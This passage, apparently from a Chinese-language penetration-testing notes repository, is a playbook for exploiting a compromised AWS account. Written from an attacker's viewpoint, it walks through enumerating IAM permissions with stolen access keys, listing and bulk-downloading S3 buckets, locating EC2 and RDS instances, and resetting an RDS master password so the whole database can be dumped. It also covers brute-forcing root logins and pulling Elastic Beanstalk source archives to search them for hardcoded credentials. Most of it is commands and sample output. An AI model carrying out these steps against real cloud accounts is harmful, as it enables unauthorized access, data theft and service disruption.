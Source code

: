  #### 枚举 IAM 权限
  	https://github.com/andresriancho/enumerate-iam
	使用enumerate-iam 枚举与 AWS 凭证集关联的权限
	>git clone git@github.com:andresriancho/enumerate-iam.git
	>pip install -r requirements.txt
	>./enumerate-iam.py --access-key AKIA... --secret-key StF0q...
	2019-05-10 15:57:58,447 - 21345 - [INFO] Starting permission enumeration for access-key-id "AKIA..."
	2019-05-10 15:58:01,532 - 21345 - [INFO] Run for the hills, get_account_authorization_details worked!
	2019-05-10 15:58:01,537 - 21345 - [INFO] -- {
	    "RoleDetailList": [
	        {
	            "Tags": [],
	            "AssumeRolePolicyDocument": {
	                "Version": "2008-10-17",
	                "Statement": [
	                    {
	...
	2019-05-10 15:58:26,709 - 21345 - [INFO] -- gamelift.list_builds() worked!
	2019-05-10 15:58:26,850 - 21345 - [INFO] -- cloudformation.list_stack_sets() worked!
	2019-05-10 15:58:26,982 - 21345 - [INFO] -- directconnect.describe_locations() worked!
	2019-05-10 15:58:27,021 - 21345 - [INFO] -- gamelift.describe_matchmaking_rule_sets() worked!
	2019-05-10 15:58:27,311 - 21345 - [INFO] -- sqs.list_queues() worked!
	一旦您有权访问云帐户，您需要弄清楚您的用户有权与哪些资源进行交互。 AWS 有数百种服务，因此我们无法涵盖所有服务，但您至少应该熟悉基本服务
![image](/assets/Pentest_Note/master/img/908.png)
 #### S3 存储桶
	我确定您听说过 S3 存储桶，但如果您没有听说过，它是一种用于存储文件和其他对象的公共云存储资源。 作为攻击者，这绝对是您想要寻找的东西，因为它有可能存储敏感数据。
	列出云环境中的所有 S3 存储桶
	> aws s3api list-buckets
	在某些情况下，您可能有权访问 S3 存储桶，但缺少列出 S3 存储桶名称所需的权限或策略。在这种情况下，您必须能够猜测或暴力破解您有权访问的 S3 存储桶的名称。
	知道 S3 存储桶的名称后，您可以通过发出以下 CLI 命令查看其内容：
	> aws s3 ls YOUR_BUCKET
	这将列出存储桶中的所有文件和文件夹。要下载文件，您可以发出“cp”命令，如下所示：
	> aws s3 cp s3://YOUR_BUCKET/file.txt file.txt
	如上所示，我们正在将文本文件“file.txt”下载到本地系统。
	您还可以使用以下命令下载整个 S3 存储桶：
	> aws s3 sync s3://YOUR_BUCKET
 #### 虚拟机
	AWS 有多种类型的虚拟机，但最流行的一种是弹性计算云 (EC2)。您可以根据需要使用 Amazon EC2 启动任意数量的虚拟服务器、配置安全性和网络以及管理存储。
	> aws ec2 describe-instances
	此命令返回 EC2 实例列表及其相关信息，例如其 IP 地址、instanceid、名称等。 以上返回大量信息，但您可以使用内置 JSON 解析器通过 --query 参数过滤输出
	> aws ec2 describe-instances --query "Reservations[*].Instances[*].{PublicIP:PublicIpAddress,Name:Tags[?Key=='Name']|[0].Value,Status:State.Name}"
 #### 数据库
	作为攻击者获得公司数据库的访问权限是一座金矿。 数据库包含各种有趣的东西，例如用户名和密码。 根据技术要求，一个环境中可能运行多种不同类型的数据库
![image](/assets/Pentest_Note/master/img/909.png)

	AWS 提供处理一切的服务，但我们将专注于托管 MySql 数据库的“Amazon RDS”服务。 要获取正在运行的数据库的列表，请运行以下命令：
	> aws rds describe-db-instances
	返回的字段之一是地址和root用户。如果该地址可以外联，您可以将其与 root 用户一起使用来发起暴力攻击。
	根据您的权限，您可能能够重置主密码。这可以通过以下命令完成：
	> aws rds modify-db-instance --db-instance-identifier INSTANCE_NAME --master-user-password NEWPASSWORD --apply-immediately
	重置主密码后，您可以登录数据库并下载所有内容。但是，更改 root 密码肯定会引发警报，并且您可能会破坏使用该帐户的任何应用程序，因此在这样做时要小心。
 #### Elastic BeanStalk 
	AWS Elastic Beanstalk (EBS) 是一种易于使用的服务，用于部署和扩展使用 Java、. NET，PHP。在熟悉的服务器（如 Apache、Nginx、Passenger 和 IIS）上运行 Node.js、Python、Ruby、Go 和 Docker。这意味着我们可以使用 EBS 通过单击按钮或 shell 命令轻松部署应用程序。 AWS 自动化了整个部署过程。
	通常，您会看到部署到 beanstalk 环境的前端或 API。可以通过发出以下 CLI 命令来定位这些环境：
	> aws elasticbeanstalk describe-environments
	注意返回的“EndpointURL”变量。 这将有一个指向 EBS 托管的应用程序的公共 url。 拥有此端点后，您可以对该应用程序发起进一步的攻击
![image](/assets/Pentest_Note/master/img/910.png)

	EBS 的另一个有趣之处在于，它将应用程序从 S3 存储桶中包含的源代码部署到 EC2 实例。 当我们按下部署按钮时，它会获取我们的源代码并将其保存到 S3 存储桶中，然后将其从该文件部署到虚拟机。 这意味着我们应该能够在 S3 存储桶中找到所有 EBS 应用程序的源代码。 任何有权访问该 S3 存储桶的人也将有权访问所有 EBS 应用程序的源代码
	> aws s3 ls  可以查看是否存在名为 elasticbeanstalk 的 S3 存储桶
	> aws s3 ls elasticbeanstalk-XXXX 
	在该 s3 存储桶上发出 ls 命令，您应该会看到一堆 .zip 文件。
	这些 zip 文件包含部署到 beanstalk 的应用程序的源代码。 下一步是下载这些文件并分析硬编码凭据和漏洞的源代码